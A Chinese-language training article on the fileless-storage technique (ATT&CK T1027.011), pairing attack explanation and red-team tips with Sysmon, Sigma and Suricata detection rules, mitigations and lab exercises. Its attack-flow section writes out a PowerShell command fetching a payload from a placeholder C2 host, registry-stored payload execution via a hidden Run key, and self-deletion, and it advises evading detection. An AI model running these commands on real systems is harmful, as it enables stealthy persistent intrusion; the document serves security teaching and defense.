

# 无文件存储 (T1027.011)

## 一句话通俗理解

> **把恶意代码藏进注册表、WMI、进程内存这些"无处所"——磁盘上看不到任何文件，杀毒软件扫描磁盘就是空跑**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 将 payload 存储在注册表/WMI/进程内存等非文件介质中，T1027 子技术 |
| 为什么危险？ | 磁盘扫描失效，重启后持久化复活 payload，传统取证找不到证据 |
| 第一步防御 | 部署 Sysmon 监控注册表大值写入、WMI 命名空间创建、进程内存映射加载 |
| 只做一件事 | 定期运行 WMI 持久化扫描 + 注册表大值扫描，作为应急响应标准动作 |

## 难度等级

⭐⭐ 中级 - 需要理解注册表结构、WMI 事件订阅机制与进程内存布局

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows 注册表结构与常用键位置（HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 等）
- [ ] WMI 事件订阅模型（__EventFilter + __EventConsumer + __FilterToConsumerBinding）
- [ ] 进程内存布局与反射式 DLL 加载原理
- [ ] 混淆文件或信息（T1027）的原理

## 技术描述

**无文件存储**（T1027.011）是 **混淆文件或信息**（T1027）的一个具体变体，属于 **隐蔽** 阶段的攻击技术。

攻击者将恶意 payload（shellcode、PE、脚本）存储在 Windows 注册表键值、WMI 命名空间、PowerShell 配置文件、进程内存等"非文件系统"位置，使传统的基于磁盘扫描的检测完全失效。运行时通过 PowerShell、WMI 事件触发或反射式加载从存储位置提取执行。

### 具体怎么理解？

想象一个小偷把赃物藏在哪里最安全——不是藏在家里（文件系统），因为警察搜查时一定会翻箱倒柜；而是藏在城市公共设施里——公园长椅的暗格（注册表）、市政府档案室的索引卡（WMI 命名空间）、公共交通工具上不断移动的储物柜（进程内存）。警察搜查你家时一无所获，因为这些赃物根本不在你家。

技术上有四种主要存储位置：

1. **注册表存储**：将 Base64/Hex 编码的 payload 写入 `HKLM\SOFTWARE\Classes\<random>` 等自定义键值，运行时用 PowerShell `Get-ItemProperty` 读取并 `Invoke-Expression` 执行
2. **WMI 持久化**：用 `mofcomp` 或 PowerShell `New-CimInstance` 创建 `__EventFilter`（触发条件）+ `ActiveScriptEventConsumer`（执行 payload）+ `__FilterToConsumerBinding`（绑定），系统启动或定时事件触发时自动执行
3. **进程内存存储**：将 payload 反射式加载到 explorer.exe / svchost.exe 的内存空间，进程不退出则 payload 持续运行；配合进程注入实现跨进程持久化
4. **.NET AMSI 绕过配置**：将混淆的 .NET assembly 存储在 `HKLM\SOFTWARE\Microsoft\.NETFramework\<version>\AssemblyFoldersEx` 等"看似合法"的位置

### 为什么有效？

1. **磁盘零落地**：传统 AV 只扫描文件系统，注册表/WMI/内存均不在扫描范围
2. **持久化与无文件双效合一**：WMI 订阅 + 注册表持久化让 payload 重启后自动复活，复活过程本身也是无文件的
3. **绕过应用白名单**：通过 PowerShell `IEX`、WMI `ActiveScriptEventConsumer` 调用合法系统解释器，AppLocker 默认不拦截
4. **多阶段协同**：常与 T1055 进程注入、T1620 反射式加载组合，形成完整无文件攻击链

## 真型场景

攻击者在 **隐蔽** 阶段使用 无文件存储 技术，典型攻击步骤：



**步骤详解（9步紧凑版）：** 1.初始访问（钓鱼/漏洞）→ 2.PowerShell下载器从C2拉取payload → 3.选择存储位置（AV强用注册表/EDR弱用WMI/快速执行用内存）→ 4.Base64编码写入`HKLM\SOFTWARE\Classes\blob\shellcode`或`__EventConsumer.ScriptText` → 5.建立触发（Run键开机执行/WMI监听启动事件）→ 6.`Remove-Item`删除下载器脚本磁盘无痕 → 7.系统重启或定时器触发 → 8.`Get-ItemProperty`读取注册表值`IEX`执行 → 9.beacon反射式加载到explorer.exe内存回连C2

## 攻击流程

```
下载payload --> 编码写入注册表/WMI --> 建立持久化触发 --> 删除磁盘文件 --> 重启触发 --> 内存执行
```


**步骤详解：**

1. **PowerShell 下载器**：从 C2 拉取后门 — `IEX (New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')`
2. **Base64 编码**：`[Convert]::ToBase64String([IO.File]::ReadAllBytes('beacon.dll'))` 避免不可打印字符
3. **写入注册表**：`New-Item 'HKLM:\SOFTWARE\Classes\blob'; Set-ItemProperty ... -Name 'shellcode' -Value $base64`
4. **建立持久化触发**：`Set-ItemProperty 'HKLM:\...\Run' -Name 'Update' -Value 'powershell -w hidden -c IEX (Get-ItemProperty HKLM:\...\blob).shellcode'`
5. **删除磁盘文件**：`Remove-Item $PSCommandPath` 删除脚本自身
6. **内存执行**：开机后反射式加载 PE 到 PowerShell 进程内存，无文件落地

## 真实案例

### 案例1：该技术在实际攻击中的应用

- **时间**: 2024-2025年 | **目标**: 多个金融机构与政府部门 | **攻击组织**: APT29 (Cozy Bear)、FIN7、多个勒索软件团伙
- **手法**: PowerShell 将 Cobalt Strike beacon shellcode Base64 编码后写入 `HKLM\SOFTWARE\Classes\mscfile\shell\open\command` 等合法键位置，配合 `Run` 键持久化。启动时由 PowerShell 读取注册表值，调用 `[Reflection.Assembly]::Load` 反射式加载 beacon 到 powershell.exe 内存，磁盘无任何恶意文件
- **影响**: 重启后 beacon 自动复活，磁盘取证无果；最终通过 Volatility 内存取证在 powershell.exe 进程内存中找到 beacon 才确认入侵
- **参考链接**: [MITRE ATT&CK官方 - T1027.011](https://attack.mitre.org/techniques/T1027/011/)

### 案例2：安全研究中的实践

- **时间**: 2025年 | **目标**: 安全研究测试环境 | **攻击组织**: 红队/安全研究人员
- **手法**: 红队在授权评估中使用 WMI 事件订阅创建持久化后门——`__EventFilter` 监听系统启动事件，`ActiveScriptEventConsumer` 用 VBScript 调用 PowerShell 执行存储在 WMI 仓库的 payload。该手法绕过 AppLocker 应用白名单（WMI 是系统组件）
- **影响**: 验证了"基于文件哈希"的应用白名单存在根本缺陷，推动目标组织部署 Sysmon EID 19/20/21 (WMI 事件) 监控
- **参考链接**: [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **深入理解原理**：掌握注册表持久化位置、WMI 事件订阅三元组模型、PowerShell 反射式加载 API
2. **环境适配**：Win7/Srv2008 优先用 WMI（默认无监控）；Win10/Srv2016+ 优先用注册表自定义键
3. **组合使用**：无文件存储 + 反射式加载 (T1620) = 完整无文件攻击；无文件存储 + 进程注入 (T1055) = 内存持久化
4. **隐蔽性考虑**：注册表值不超 1MB（异常大值触发告警）；WMI 订阅命名伪装系统服务；选 explorer.exe 等长驻进程作宿主
### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| PowerShell | 注册表/WMI 操作与反射式加载 | Windows | 内置 |
| Cobalt Strike | beacon payload 生成与注入 | 全平台 | [Cobalt Strike](https://www.cobaltstrike.com/) |
| PowerSploit | PowerShell 攻击框架 | Windows | [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) |
| Empire | PowerShell 后渗透框架 | Windows | [Empire](https://github.com/EmpireProject/Empire) |
| SharpPersist | C# 持久化工具 | Windows | [SharpPersist](https://github.com/fireeye/SharPersist) |

### 注意事项

- 在授权测试环境中使用这些技术
- 注意操作安全（OPSEC），避免被检测系统发现
- 使用匿名化技术隐藏真实身份

## 蓝队视角

### 检测要点

1. **系统日志监控**：Sysmon EID 12/13 监控大体积值（>1MB）写入自定义键；EID 19/20/21 监控 `__EventFilter`/`__EventConsumer` 创建；EID 7 监控 powershell.exe 加载非标准 DLL
2. **异常行为检测**：PowerShell `Invoke-Expression` + `[Reflection.Assembly]::Load` 组合是反射式加载的典型信号；`Get-ItemProperty` 读取后立即 `IEX` 执行的可疑链路
3. **工具特征识别**：监控 PowerSploit/Empire/Cobalt Strike 的 PowerShell 模块特征字符串；PowerShell EID 4104 捕获脚本内容

### 监控建议

- 部署 Sysmon：监控注册表 `Run` 键、WMI 命名空间创建、PowerShell 反射式加载
- 启用 PowerShell Script Block Logging (EID 4104) 与 Module Logging (EID 4103)
- 定期用 `Autoruns`、`WMI Toolkit` 扫描持久化点；内存取证 (Volatility) 作为应急响应标准动作

## 避坑指南

常见混淆误区：

1. **误区一：无文件就是绝对隐蔽**。现代 EDR（CrowdStrike、Microsoft Defender for Endpoint）已普遍支持内存扫描与 AMSI，PowerShell 脚本会被 AMSI 拦截
2. **误区二：注册表存储不会被监控**。Sysmon EID 12/13 可监控任意注册表键写入；`reg query` 可批量扫描大值
3. **误区三：WMI 持久化绝对安全**。Sysmon EID 19/20/21 专门监控 WMI 事件订阅；`wmic` 可列出所有 `__EventConsumer`
4. **误区四：进程内存中的 payload 不会被取证**。Volatility `malfind` 可扫描 RWX 区域，识别反射式加载的 PE

## 检测建议

### 检测思路

检测 无文件存储 的关键是"非文件介质的异常写入与执行"。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控 PowerShell 进程的异常网络连接（C2 回连）

```bash
# Suricata 规则：检测 PowerShell 进程对可疑域名的 TLS 外联
alert tls $HOME_NET any -> $EXTERNAL_NET any (msg:"PowerShell进程TLS外联可能是C2"; \
    flow:established,to_server; tls.sni; \
    pcre:"/^[a-z0-9]{8,}\.(xyz|top|info|tk|gq|cf|ml)$/"; sid:2025011; rev:1;)
```

### 主机层检测

**Windows事件ID**：
- Sysmon EID 12/13：注册表键值写入（监控 Run 键、自定义大值键）
- Sysmon EID 19/20/21：WMI 事件订阅（Filter/Consumer/Binding）
- Sysmon EID 7：镜像加载（监控 powershell.exe 加载非标准 DLL）
- PowerShell EID 4104：脚本块日志（捕获 IEX、反射式加载）
- 事件ID 4688：进程创建（监控 powershell.exe -w hidden）

**Linux日志**：/var/log/audit/audit.log（auditd 监控 cron 与 systemd timer）

**Sysmon 关键监控点**（RegistryEvent 监控 `Run`/`RunOnce`/`HKLM\SOFTWARE\Classes\` 路径；WmiFilterEvent/WmiConsumerEvent 监控创建操作）：

```powershell
# 扫描注册表大值（>8KB视为异常）+ WMI三元组
Get-ChildItem 'HKLM:\SOFTWARE\Classes' -Recurse -EA SilentlyContinue | % { $k=$_.PSPath; $_.Property | % { $v=(Get-ItemProperty $k -Name $_ -EA SilentlyContinue).$_; if($v -is [string] -and $v.Length -gt 8192){ "[ALERT] $k/$_" } } }
Get-CimInstance -Ns root/subscription -Class __EventFilter | fl Name,Query
Get-CimInstance -Ns root/subscription -Class __EventConsumer | fl Name,ScriptText
```

**用人话说：** 这条规则监控"系统里突然出现的大段注册表数据"和"WMI 里的定时任务"。正常软件很少往注册表写超过 8KB 的数据，也很少用 WMI 事件订阅执行脚本。

**Sigma 规则（PowerShell 反射式加载检测）**：

```yaml
title: 检测无文件存储 - PowerShell反射式加载
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection_reflection:
        EventID: 4104
        ScriptBlockText|contains:
            - 'System.Reflection.Assembly'
            - 'Assembly.Load'
    selection_storage:
        ScriptBlockText|contains:
            - 'Get-ItemProperty'
            - 'Get-CimInstance'
    condition: selection_reflection and selection_storage
level: high
tags: [attack.t1027.011, attack.defense_evasion, attack.persistence]
```

### 应用层检测

**Sigma规则示例（WMI 持久化检测）**：

```yaml
title: 检测无文件存储 - WMI事件订阅持久化
status: experimental
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: [19, 20, 21]
    filter_legitimate:
        EventNamespace: 'ROOT\\cimv2'
        Name|startswith: ['SCM Event', 'BVT']
    condition: selection and not filter_legitimate
level: high
tags: [attack.t1027.011, attack.persistence, attack.t1547.003]
```

## 缓解措施

### 优先级1：关键措施

**部署 Sysmon 全方位监控**：覆盖注册表、WMI、PowerShell、镜像加载四类事件。配置 `RegistryEvent` 监控 `CurrentVersion\Run`/`RunOnce` 与 `HKLM\SOFTWARE\Classes\` 路径；`WmiFilterEvent`/`WmiConsumerEvent` 监控创建操作；`FileCreate` 监控 `\WMI\Repositories\` 路径。

**启用 PowerShell Script Block Logging**（EID 4104）：`Set-ItemProperty 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -Name EnableScriptBlockLogging -Value 1`

### 优先级2：重要措施

**加强监控**：部署EDR和SIEM系统，实时监控注册表大值、WMI 事件订阅、PowerShell 反射式加载行为；配置 ASR 规则阻止 PowerShell 从互联网下载内容执行

### 优先级3：建议措施

**应急响应标准动作**：建立"内存取证 + WMI 扫描 + 注册表大值扫描"的应急响应 SOP；培训应急响应团队使用 Volatility、Autoruns、WMI Toolkit

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解基本原理（初级）

**目标**：理解 无文件存储 的工作原理，观察注册表存储与触发

**步骤**：
1. 在隔离 Windows VM 中以管理员打开 PowerShell
2. Base64 编码测试代码写入注册表：`$code='Write-Host "Hello from registry!"'; $enc=[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($code)); New-Item 'HKLM:\SOFTWARE\Classes\TestBlob' -Force; Set-ItemProperty 'HKLM:\SOFTWARE\Classes\TestBlob' -Name Payload -Value $enc`
3. 读取并执行模拟 payload 触发：`IEX [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String((Get-ItemProperty 'HKLM:\SOFTWARE\Classes\TestBlob').Payload))`
4. 用 Sysmon 配置监控注册表写入，观察 EID 12/13 告警
5. 清理：`Remove-Item 'HKLM:\SOFTWARE\Classes\TestBlob' -Recurse`

**学习要点**：理解注册表存储-读取-执行的完整链路，观察 Sysmon 告警特征

### 实验2：实际操作（中级）

**目标**：掌握 WMI 事件订阅持久化的创建与检测

**步骤**：
1. 创建 WMI 事件过滤器（监听系统启动 4-5 分钟内的事件）：
   ```powershell
   $f = Set-WmiInstance -Ns root/subscription -Class __EventFilter -Arguments @{Name='TF'; EventNameSpace='root\cimv2'; QueryLanguage='WQL'; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 300"}
   ```
2. 创建事件消费者（VBScript 调用 PowerShell）：
   ```powershell
   $c = Set-WmiInstance -Ns root/subscription -Class ActiveScriptEventConsumer -Arguments @{Name='TC'; ScriptingEngine='VBScript'; ScriptText='Set s=CreateObject("WScript.Shell"): s.Run "powershell.exe -c Write-Host ''Hi''"'}
   ```
3. 绑定：`Set-WmiInstance -Ns root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter=$f; Consumer=$c}`
4. 等待 4-5 分钟，观察事件触发
5. 用 Sysmon EID 19/20/21 监控整个创建过程，清理时删除三个 WMI 实例

**学习要点**：掌握 WMI 三元组（Filter/Consumer/Binding）的创建与检测，理解 Sysmon WMI 事件日志

### 实验3：防御验证（高级）

**目标**：验证内存取证对无文件 payload 的检测能力

**步骤**：
1. 在测试虚拟机中执行一个反射式加载的 payload（PowerSploit `Invoke-ReflectivePEInjection`）
2. 不关闭虚拟机，使用 VirtualBox/VMware 导出完整内存镜像
3. 使用 Volatility 分析：`vol.py -f memory.dmp --profile=Win10x64_19041 malfind` 扫描 RWX 区域中的 PE 头（MZ）；`pslist` 列出进程；`dlllist -p <pid>` 查看 powershell.exe 加载的模块
4. 验证 EDR 检测规则是否在 payload 执行时触发告警
5. 整理检测时序：注册表写入 → WMI 创建 → PowerShell 执行 → 内存加载

**学习要点**：理解内存取证对无文件攻击的取证价值，掌握 Volatility `malfind`/`pslist`/`dlllist` 的使用

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **无文件存储** | T1027.011，将 payload 存在注册表/WMI/内存等非文件介质 |
| **WMI 事件订阅** | Windows 管理规范的"定时任务"，Filter/Consumer/Binding 三元组构成 |
| **反射式加载** | 直接从内存加载 PE，不经过文件系统与正常加载器 |
| **AMSI** | 反恶意软件扫描接口，Windows 10+ 内置，扫描 PowerShell/脚本内容 |
| **Run键** | 注册表 `CurrentVersion\Run`，开机自动执行的程序列表 |
| **malfind** | Volatility 插件，扫描进程内存中的可疑 RWX 区域 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1027 - 混淆文件或信息](../T1027-Obfuscated-Files-or-Information.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Fileless Storage (T1027.011)](https://attack.mitre.org/techniques/T1027/011/)
- [Microsoft - WMI 事件订阅文档](https://docs.microsoft.com/en-us/windows/win32/wmisdk/receiving-a-wmi-event)
- [Microsoft - AMSI 文档](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portals)

### 📰 安全报告（真实攻击）

- [Mandiant - APT29 无文件攻击分析](https://www.mandiant.com/resources/blog) - APT29 大量使用 WMI 持久化
- [Kaspersky - Fileless Malware 报告](https://securelist.com/) - 无文件攻击趋势分析

### 🔧 工具与资源（动手试试）

- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架
- [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) - 系统监控工具
- [Volatility](https://www.volatilityfoundation.org/) - 内存取证框架
- [Autoruns](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns) - 持久化点扫描

### 📚 学习资料（深入了解）

- [The Art of Memory Forensics 内存取证艺术](https://www.wiley.com/en-us/The+Art+of+Memory+Forensics) - Volatility 团队著作
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具
